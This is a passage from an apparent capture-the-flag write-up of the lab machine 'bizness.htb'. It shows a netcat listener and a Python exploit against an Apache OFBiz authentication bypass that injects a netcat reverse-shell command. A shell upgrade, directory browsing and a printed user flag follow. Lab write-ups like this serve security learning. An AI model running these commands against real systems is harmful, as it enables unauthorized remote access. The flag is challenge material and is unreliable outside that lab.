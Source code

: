 It was at this point that I realized that I got lost in the rabbit hole and didn't think about using `netcat`... Let's do that now!

First, I set a `netcat` listener:

```
[Wed Feb 28-09:01:19]-[table@parrot]-
-[~/Apache-OFBiz-Authentication-Bypass]$ nc -lnvp 8443
listening on [any] 8443 ...
```

Now I exploit and create a reverse shell to `nc` listener on 8443:

```
-[Wed Feb 28-12:52:40]-[table@parrot]-
-[~/Apache-OFBiz-Authentication-Bypass]$ python3 exploit.py --url https://bizness.htb:443 --cmd 'nc 10.10.14.83 8443 -e /bin/bash'
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.

```

Success:

```
-[Wed Feb 28-09:01:19]-[table@parrot]-
-[~/Apache-OFBiz-Authentication-Bypass]$ nc -lnvp 8443
listening on [any] 8443 ...
connect to [10.10.14.83] from (UNKNOWN) [10.10.11.252] 58330
whoami
ofbiz

```

I then upgraded the shell:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ofbiz@bizness:/opt/ofbiz$ 
```

Search and find user flag.txt:&#x20;

```
ofbiz@bizness:/opt/ofbiz$ cd /home
cd /home
ofbiz@bizness:/home$ ls
ls
ofbiz
ofbiz@bizness:/home$ cd ofbiz	
cd ofbiz
ofbiz@bizness:~$ ls
ls
user.txt
ofbiz@bizness:~$ cat user.txt
cat user.txt
cf63f09a58c171c627576ba93f3c4b0f
```
